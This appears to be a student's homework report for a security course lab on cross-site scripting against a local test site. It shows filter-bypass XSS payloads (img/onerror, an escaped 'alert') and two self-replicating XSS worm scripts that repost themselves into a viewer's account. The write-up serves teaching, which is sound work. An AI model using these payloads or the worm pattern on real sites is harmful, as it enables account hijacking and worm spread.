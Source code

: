 # TIC4304 Homework 2
- Name: Ke Yule
- Student Number: A0211495H E0493826

*View the markdown version for better formatting at:*   
*https://github.com/keyule/4304-hw2/blob/main/report.md* 

### Task 1
Code:  
```js
<image/src/onerror=alert("KeYule-A0211495H")> 
```  

I just browsed the list of XSS payloads for one without the words script or img 

```php
function filter($content)
{
	$filter = "/script|img/i";
	preg_match($filter, $content) && die("some string");
	return $content;
}
```
The above code checks if the string contains /script or img with case insensitivity. 

#### Screenshot 

>![Task 1](https://github.com/keyule/4304-hw2/blob/main/images/task1.png?raw=true)


### Task 2
Code:
```js
<image/src/onerror=al\u0065rt("KeYule-A0211495H")>
```
Obfuscation of the alert word

```php
#added
$content = str_replace("alert","", $content);
```
It replaces the word alert with nothing

#### Screenshot 
>![Task 2](https://github.com/keyule/4304-hw2/blob/main/images/task2.png?raw=true)

### Task 3

Link Approach:

Payload (the thing we paste in the form box):
```js
<script type="text/javascript" src="http://localhost/linkApproach.js"></script>
```
linkApproach.js: 
```js
window.onload = function(){
    var xhr = new XMLHttpRequest();

    var url = 'http://localhost/task3_submit.php?content=';
    var contenturl = '<script type="text/javascript" src="http://localhost/testnew.js"></script>'
    var endingbit = '&submit=submit';
    
    var fullurl = url + contenturl + endingbit;
    
    xhr.open('GET', fullurl, true);

    xhr.setRequestHeader("Cookie",document.cookie);
    xhr.onload = function() {
	    if (xhr.status===200){
		    console.log(xhr.responseText);
    	}else{
	    	console.log('failed' + xhr.status);
	    }
    };

    xhr.send();

} 
```
How it works is when viewing whatever the person saved. It will send a get request to post that same payload into your account.

Dom Approach: (paste the whole thing into the box)
```html
<script id=worm>
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    
    var xhr = new XMLHttpRequest();

    var url = 'http://localhost/task3_submit.php?content=';
    var contenturl = wormCode;
    var endingbit = '&submit=submit';

    var fullurl = url + contenturl + endingbit;

    xhr.open('GET', fullurl, true);

    xhr.setRequestHeader("Cookie",document.cookie);
    xhr.onload = function() {
        if (xhr.status===200){
            console.log(xhr.responseText);
        }else{
            console.log('failed' + xhr.status);
        }
    };

    xhr.send();

</script>
```
When viewed it sends all the code in a get request to be posted into your account.

#### Technical Challenges
Biggest challenge was that I didnt know javascript. So I had no idea how was I suppose to even send a get request. Solved it by googling.

Another challenge was how to test out my get request to make sure im able to send and save stuff into the DB. Solved it by installing postman 

### Task 4
Task 1: Reflected  
Task 2: Stored  
Task 3: Stored   

The question says where are the types, im guessing you mean WHAT are the types. 